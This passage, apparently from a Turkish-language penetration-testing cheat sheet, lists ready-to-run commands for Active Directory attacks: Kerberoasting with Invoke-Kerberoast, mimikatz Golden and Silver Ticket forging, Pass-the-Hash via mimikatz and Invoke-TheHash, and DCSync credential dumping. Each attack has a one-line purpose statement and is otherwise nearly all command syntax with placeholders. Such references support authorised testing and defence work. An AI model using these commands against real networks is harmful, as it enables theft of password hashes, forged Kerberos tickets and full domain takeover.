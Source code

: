 ```powershell
Invoke-Kerberoast -OutputFormat Hashcat
```

---

### 2.3. Golden Ticket Saldırısı

#### `mimikatz` (Golden Ticket)
**Amaç:** TGT (Ticket Granting Ticket) oluşturur ve sınırsız yetki elde edilir.

```cmd
privilege::debug
token::elevate
kerberos::golden /domain:<domain> /sid:<domain_sid> /krbtgt:<hash> /user:<username>
```

---

### 2.4. Silver Ticket Saldırısı

#### `mimikatz` (Silver Ticket)
**Amaç:** Belirli bir servise yönelik erişim için ticket oluşturur.

```cmd
kerberos::golden /domain:<domain> /sid:<domain_sid> /target:<target> /rc4:<hash> /user:<username> /service:<service>
```

---

### 2.5. Pass-the-Hash (PtH) Saldırısı

#### `mimikatz` (Pass-the-Hash)
**Amaç:** Hash bilgisi kullanarak kimlik doğrulama gerçekleştirir.

```cmd
sekurlsa::pth /user:<username> /domain:<domain> /ntlm:<hash> /run:<command>
```

#### `Invoke-TheHash`
**Amaç:** Pass-the-Hash saldırısı gerçekleştirir.

```powershell
Invoke-TheHash -Username <username> -Hash <ntlm_hash> -Command <command>
```

---

### 2.6. DCSync Saldırısı

#### `mimikatz` (DCSync)
**Amaç:** Domain Controller'daki kullanıcı parolalarını ve hash'lerini alır.

```cmd
privilege::debug
lsadump::dcsync /domain:<domain> /user:<username>
```
